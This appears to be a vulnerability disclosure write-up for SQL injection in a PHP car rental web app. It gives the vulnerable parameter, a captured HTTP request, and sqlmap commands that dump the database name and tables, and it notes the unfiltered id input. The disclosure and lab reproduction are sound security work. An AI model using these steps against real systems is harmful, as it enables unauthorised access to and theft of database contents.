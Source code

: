 # Car Rental System SQL Injection
* `Injection Point` => `http://192.168.1.101:8080/Car_Rental/booking.php?id=1`
# Exploit 
* Exploit with `Sqlmap` + `Burp Suite `
![image](https://user-images.githubusercontent.com/79050415/159719099-d87a540c-b90f-49ca-8377-36bd97a4314e.png)
* Use `Burp Suite` capture request 
* Then save as `sqlicar.txt`
```c
GET /Car_Rental/booking.php?id=1 HTTP/1.1
Host: 192.168.1.101:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Car_Rental/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=jo7rsp3d4su5223o11544otrc44odm2l; PHPSESSID=5cddkjjvh5nhvqh96t306gau8b
Connection: close

```
* Exploit with `Sqlmap`
```c
 python3 sqlmap.py -r sqlicar.txt --current-db
```
![image](https://user-images.githubusercontent.com/79050415/159721152-f8a48ce3-3cde-4743-bb4a-babb858e9e48.png)

```python
python3 sqlmap.py -r sqlicar.txt -D carrentalp --tables
```
![image](https://user-images.githubusercontent.com/79050415/159719187-a0e7785b-ddf4-4581-a7ca-75e3343f4b49.png)
# Information Disclosure
![image](https://user-images.githubusercontent.com/79050415/159721411-55b6bdde-6ad6-4490-ac0e-a96e1a7bd1f7.png)
![image](https://user-images.githubusercontent.com/79050415/159721455-10c52b03-bc77-4aaf-8de1-684a30af17b7.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159724951-39b8fd8b-9a6d-4797-846e-ca69b7767a8e.png)
* No filter `id` when inserting data to database
